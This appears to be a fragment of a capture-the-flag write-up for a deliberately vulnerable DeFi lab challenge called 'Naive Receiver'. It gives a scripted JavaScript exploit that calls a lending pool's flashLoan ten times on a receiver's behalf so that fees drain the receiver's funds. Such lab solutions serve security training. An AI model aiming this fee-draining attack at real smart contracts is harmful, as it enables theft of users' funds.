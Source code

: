 # 2 - Naive Receiver

### Scripted Solution

```javascript
it('Exploit', async function () {
  // Borrow 0 tokens to receiver (charging a 1 ether fee each time)
  for (let i = 0; i < 10; i++) {
    await this.pool.flashLoan(this.receiver.address, 0)
  }
})
```
